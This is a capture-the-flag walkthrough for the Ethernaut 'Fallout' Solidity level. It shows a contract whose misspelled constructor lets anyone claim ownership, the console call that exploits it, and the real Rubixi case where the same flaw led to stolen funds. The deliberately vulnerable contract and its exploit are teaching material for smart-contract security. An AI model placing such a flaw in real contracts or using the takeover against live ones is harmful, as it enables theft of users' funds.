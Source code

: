 # Fallout

## Challenge Description

Claim ownership of the contract below to complete this level.

Things that might help:

-   Solidity Remix IDE

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./utils/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;
    mapping(address => uint) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint) {
        return allocations[allocator];
    }
}
```

## Challenge Solution Walkthrough

In previous versions of the Solidity compiler, the constructor function was defined with the same name as the contract's name. However, in the given contract, there is a typo in the constructor function name. The function `Fal1out()` should actually be `Fallout()` to serve as the constructor. To solve this challenge, you need to call the `Fal1out()` function. Due to the typo, this function can be called multiple times, allowing anyone to become the owner of the contract.

```solidity
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

To solve the challenge, open the console and execute the following command:

```javascript
> await contract.Fal1out()
```

After executing the command, you will become the owner of the contract. To verify that you are the owner, run the following command:

```javascript
> (await contract.owner()).toString() == player.toString()
< true
```

If the return value is `true`, it means you have successfully become the owner.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
